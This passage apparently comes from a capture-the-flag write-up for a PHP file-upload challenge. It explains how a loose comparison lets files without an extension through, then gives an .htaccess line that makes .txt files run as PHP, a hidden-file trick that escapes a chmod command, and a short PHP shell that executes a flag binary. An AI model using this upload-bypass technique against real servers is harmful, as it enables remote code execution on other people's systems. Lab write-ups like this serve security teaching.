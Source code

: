 Since there is a loose comparison (== instead of \=\=\=), this means if the last dot position is 0, this will evaluate to try and the extension will be empty. therefore, hidden files do not count as an extension

#### Step 2
```php
// Ensure that the extention is a txt file
if ( $extension !== '' && $extension !== 'txt') {
  echo "Sorry, only .txt extensions are allowed";
  $uploadOk = 0;
}
```

As long as our file does not contain an extension, it can be uploaded. this includes `.htaccess` files. an `.htaccess` file can be uploaded that contains the following to allow `.txt` files to execute as php:

```
AddType application/x-httpd-php .txt
```

#### Step 3
```php
$old_path = getcwd();
chdir($target_dir);
// make unreadable - the proper way
shell_exec('chmod -- 000 *');
chdir($old_path);
```

Due to the -- in the chmod command, an attacker can not upload file such as `--reference=file.txt`. However, since they changed the `.htaccess` file to execute commands as php, they can upload a hidden file that will not get hit by the `chmod --- 000 *` command. This may be hard to notice, since the `.htaccess` is forbidden by default. `.call_get_flag.txt` can be uploaded containing the following:

```php
<?php
echo(shell_exec('/var/www/html/get_flag 2>&1'));
?>
```

#### Step 4
An attacker needs to go into their cookies on the browser and grab PHPSESSID. Then they can navigate to the following URL (example PHPSESSID:fb14797cfe048e2eab6f43d87ba82592)

![](Pasted_image_20250324173220.png)
